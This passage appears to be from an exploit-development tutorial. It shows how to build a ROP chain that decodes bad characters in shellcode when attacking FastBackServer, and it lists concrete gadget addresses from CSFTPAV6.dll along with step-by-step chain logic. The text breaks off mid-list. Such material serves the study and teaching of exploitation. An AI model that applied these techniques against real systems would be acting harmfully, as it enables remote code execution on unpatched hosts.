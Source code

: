 We will be using `FastBackServer` as our target, First we need to get our own gadget from one of `FastBackServer` modules, Here i picked up `CSFTPAV6.dll` module. When we are decoding our shellcode, We have to focus on the following type of gadgets:

- `add byte [reg]`
- `add byte [reg{+/-}{offset/reg}]`
- `sub byte [reg]`
- `sub byte [reg{+/-}{offset/reg}]`

And also we could use other gadgets if we can't find the above ones, Such as:

- `ror`
- `rol`
- `shr`
- `shl`
- `or`
- `and`

But, In my case i found many gadgets as the following:
```
0x5051f2be: add byte [esi+0x5D], bl ; ret  ;  (1 found)
0x50541fae: add byte [esi+0x5D], bl ; ret  ;  (1 found)
0x50516959: add byte [esi+0x5F], bl ; ret  ;  (1 found)
0x50526766: add byte [esi+0x5F], bl ; ret  ;  (1 found)
.....
0x5054348e: add byte [edx], bh ; ret  ;  (1 found)
0x50549016: add byte [edx], bh ; ret  ;  (1 found)
0x50548ec4: add byte [edx], bh ; ret  ;  (1 found)
0x50548f39: add byte [edx], bh ; ret  ;  (1 found)
0x505490a2: add byte [edx], bh ; ret  ;  (1 found)
......
0x505229c2: add byte [edx], ch ; ret  ;  (1 found)
0x50523aec: add byte [edx], ch ; ret  ;  (1 found)
0x5050626e: add byte [esi+0x3B], ah ; ret  ;  (1 found)
......
```

I will pick up `0x5050626e: add byte [esi+0x3B], ah ; ret  ;` as a decoding gadget, specially, in my case the `esi` register has is used as the pointer to patch the arguments in my `ROPGadget`; `0x5051cbb6: mov dword [esi], eax ; ret  ;`, And also it's using the value in `ah` to be added where `esi+0x3B` points to, As i do have control over `eax` and i can pop any value into it, Then we are good to go and use this gadget. Now, We would need the following steps to perform a successful decoding for the bad characters:
1. Make `esi+0x3B` point to the bad character.
2. Pop our decoding value into `eax`.
3. Add the value of `ah` into where `esi+0x3B` is pointing.
4. Move to the next bad character and decode it..

As there are no gadgets that perform direct operations on `esi` to make it point where we need, Then we will use the following gadgets:
```
#0x5050118e: mov eax, esi ; pop esi ; ret  ;  (1 found)
#0x5052db24: pop ecx ; ret  ;
#0x50533bf4: sub eax, ecx ; ret  ;  (1 found)
#0x505263f9: push eax ; pop esi ; pop ebx ; ret  ;  (1 found)
#0x5053a0f5: pop eax ; ret  ;  (1 found)
#0x5050626e: add byte [esi+0x3B], ah ; ret  ;
```
1. `0x5050118e: mov eax, esi ; pop esi ; ret  ;`
	- Here we would move the value in `esi` (which has the `esp` value before) into `eax`, And pop a dummy value into `esi`.
2. `0x5052db24: pop ecx ; ret  ;`
	- Next, We will pop the negative offset value to the bad characters into `ecx`, As the positive value would contain bad characters & also NULL-Byte.
3. `0x50533bf4: sub eax, ecx ; ret  ;`